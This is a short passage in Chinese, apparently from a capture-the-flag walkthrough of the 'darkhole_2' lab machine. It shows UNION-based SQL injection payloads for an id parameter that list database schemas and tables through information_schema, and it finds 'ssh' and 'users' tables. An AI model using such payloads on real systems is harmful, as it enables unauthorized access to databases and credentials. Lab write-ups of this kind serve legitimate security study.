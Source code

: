 ![](./pic-2/8-4.jpg)



前面经过`git`已经知道，数据库为`mysql`，表为`users`表，不确定数据库版本，有无`information_schema`表，这里要进行测试，也是一种回顾。

```sql
?id=-1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata--+
'//获取所有的数据库名

?id=-1' union select 1,group_concat(table_name),3,4,5,6 from information_schema where table_schema='darkhole_2'--+
//获取指定数据库的所有表，这里也可以是schema_name=database()
```

#### 获取当前数据库的所有表

获取两个表，一个`ssh`一个`users`
